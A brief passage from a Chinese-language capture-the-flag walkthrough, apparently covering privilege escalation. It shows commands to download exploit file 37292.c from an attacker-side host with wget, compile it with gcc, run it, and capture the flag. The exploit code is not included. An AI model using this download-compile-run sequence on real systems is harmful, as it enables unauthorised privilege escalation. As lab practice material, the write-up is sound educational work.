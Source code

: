 

五个可用的exp（可以挨个尝试，我这里时37292.c可用）



#### 上传37292.c

```
wget 192.168.147.131/37292.c
```

![image-20250313114552165](assets/image-20250313114552165.png)

#### 编译

```
gcc 37292.c -o 3
```

![image-20250313114618695](assets/image-20250313114618695.png)

#### 执行

```
./3
```

![image-20250313114624809](assets/image-20250313114624809.png)



#### 得到flag

![image-20250313114701570](assets/image-20250313114701570.png)